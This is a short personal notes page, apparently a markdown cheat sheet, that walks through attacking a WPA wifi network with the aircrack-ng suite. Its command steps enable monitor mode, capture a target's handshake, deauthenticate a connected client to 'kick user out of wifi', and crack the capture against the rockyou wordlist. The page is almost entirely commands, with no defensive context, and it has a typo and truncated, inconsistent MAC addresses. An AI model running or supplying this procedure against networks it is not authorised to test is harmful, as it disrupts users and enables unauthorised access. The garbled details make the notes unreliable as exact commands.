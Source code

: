 


![[Pasted image 20230104142015.png]]



```bash
# start airmon
airmon-g check kill

airmon-ng start wlan0

iwconfig
```

```
# search area find target
airodump-ng wlan0mon

airodump-ng -c 6 --bssid 50:C7:8A:00:73 -w capture  wlan0mon
# flags
-c # channel
--bssid # mac
-w # file to dump to 
wlan0mon # nic

```

![[Pasted image 20230104142917.png]]

# Deauth
Kick user out of wifi
```
aireplay-ng -0 1 -a 50:C7:BF:8A:00:73 -c 3C:f0:22:DB:E3 wlan0mon
# flags
-0 1 # run attack 1 time
-a # target MAC
-c # target station 
```

![[Pasted image 20230104142946.png]]
# crack handshake
```
aircrack-ng -w /usr/share/wordlist/rockyou.txt -b 50:C7:BF:00:73 capture-01.cap
# FLAGS
-w # wordlist 
-b # target mac 
capture-01.cap # handshake file 
```

---
Tags: #wifi
Resources: